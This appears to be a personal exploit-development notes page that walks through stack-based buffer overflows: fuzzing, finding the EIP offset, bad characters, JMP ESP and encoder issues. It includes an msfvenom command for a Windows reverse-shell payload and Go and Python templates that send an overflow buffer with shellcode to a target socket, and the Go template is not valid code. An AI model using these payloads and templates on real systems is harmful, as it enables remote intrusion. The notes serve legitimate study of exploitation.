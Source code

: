 # Stackbased Buffer Overflows

## General Approach
Incremental stepping through your exploitation PoC on non-target enivornment to test **EACH** step to 

## Finding the vulnerability
1. Source code review
	1. Find vulnerable functions
2. [Fuzzing](https://en.wikipedia.org/wiki/Fuzzing)
	1.  Fuzz any input fields
3. Reverse Engineering
	1. Find vulnerable functions

Before getting excited consider if the target machine is protected with [[Binary-Exploitation-Protections]]

## Fuzzing HTTP protocol
[Microsoft TCPView](https://docs.microsoft.com/en-us/sysinternals/downloads/tcpview) if debugger network listening does not work.

1. Use [[Wireshark]] to monitor traffic sent to application and follow TCP stream to show reply. 
2. [[Useful_Python]] PoC 
3. Run debugger Administrative priveleges attached to running of the vulnerable application
	1. Or for Windows [tcpview if immunity debugger listen column unavaliable](https://docs.microsoft.com/en-us/sysinternals/downloads/tcpview)
	2. Attach process with immunity debugger

## Buffer Overflow Exploitation
Be aware alot of restarting required.

Note the  Endianess 

1. Enumerate till location EIP, - see fuzzer.py in [[Stackbased-Buffer-Overflow-Scripts]]
	1. Binary Tree analysis - use pwntools `cyclic` or `msf-pattern_create -l $int`
	2. Update PoC - see crash_replication_control_eip.py in [[Stackbased-Buffer-Overflow-Scripts]]
	3. Note ESP register points to before exploit.py
1. Check offset(skip binary tree analysis) with `msfpattern_offset -l $int -q $offsetpattern` or pwntools `offset`. From EIP the offset is located at relative memory address higher than EIP - closer to 0x0!. Or [[Mona]] and ImmunityDebug use: `!mona findmsp -distance $mfs_pattern_create_amount`
	1. Add EIP variable to find exact EIP address.
1. Locating space for shellcode
1. Check for bad characters
1. Redirect the execution to flow: - Remember Endianness
	
Due address changing either due crashing-and-restarting application or ASLR ... we can just hardcode a static return address in general in modern binary exploitation.

6. Find a return address
7. Leverage a static address that contains a `JMP ESP`("jumps" to addresws pointed to by ESP) - we redirect EIP to this adderss
	1. Must be static - no libraries compiled with ASLR support
	2. Not an address within the region to be occupied by the shellcode
8. Encoded payloads from [[MSFvenom-Payloads]] are prepended with a decoder stub to decode itself using memory. GetPC routine assmebly instruction to gather memory location of the decoder stub.
	1. shikata_ga_nai write to top of the stack potentially corrupting the address pointed at by the ESP register meaning that the GetPC route execution changes the decoder itself.
	
To avoid this final issue you could:
1. Adjust ESP backward using assemble instructions _DEC ESP_, _SUB ESP, 0xXX_, before executing the decoder
2. Create large area for JMP ESP and NOP sled


## Considerations

1. One consideration depending on the application and the type of vulnerability, there may be restrictions on the length of input passed to the application. In some cases, increasing the length of a buffer may result in a completely different crash. This is due the larger buffer overwrites additional data on the stack that is used by the target application, but could provide extra space for shellcode.

2. Bad characters `-b` flag for [[MSFvenom-Payloads]] followed by a string of hex delimited with `\x`

3. Another being **ExitThread** API with [[MSFvenom-Payloads]] - `EXITFUNC=thread`:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10. LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```
This avoid crashing the application when you terminate the shell.

4. Staging payload, if you do not have enough space create `stage` that would be equal to a set of opcodes to point to another address, you may require repadding the original buffer with `\x90`s to maintain the correct length.

5. To create the correct opcodes for assembly instructions, use `msf-nasm_shell` from [[Metasploit]].

6. `-v` variable to save as a variable name `-f py` format flag plus the py for python will format it to python variable.

7. Debugger will catch the child process of spawn the shell, remember not to have the debugger attached.

## Tooling
[[Pwntools]], see [[Reverse-Engineering-Tools]]




## APPENDIX:

\\xCC as a graceful break for binex than crashing.

// ENDIANNESS tester
```c
#include <stdio.h>
union s{
	int n;
	char b;
}x;
void main(){
	x.n = 0x4142;
	if(x.b == 0x42){
		printf("Little Endian\n");
	}
	else{
		printf("Big Endian\n");
	}
}
```

#### Templates 

```go
bof := strings.Builder{}
shell := ` `

offset := 608
rip := '0x' //store it to not overflow your own memory
formatRIP := //nice formatting hex function
nopSled := `\x90` 
safeJunk := `\xCC`
* someamount
payloadSize := offset + 8
shellSize := len(shell)
nopSize := len(nopSled)
padding := 'A' * (payloadSize - shellSize - nopSize)

bof.WriteString(nopSled, shell, padding, formatRIP)

payload := bof.String()

fmt.Printf("%s", payload)
```

```python
#!/usr/bin/python
import socket

host = "<ip_address>"
port = <port_number_as_int>

nop_sled = "\x90" * <nop_sled_size>

# stick the msfvenom payload command here for reference
shellcode = ""
... # Shellcode goes here


padding = "\x41" * (<padding_size_as_int> - len(nop_sled) - len(shellcode))

eip = "<eip_hex_address>" # remember endianness
stager = "<insert_opcodes_here>" # msf-nasm_shell to create opcode

buffer = f"<useful_string_if_required >{padding}{eip}{stager}\x90\x00#"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print("[*] Sending evil buffer...")

s.connect((host, port))
print(f"{s.recv(1024)}")

s.send(buffer)
s.close()

print("[*] Payload Sent !")
```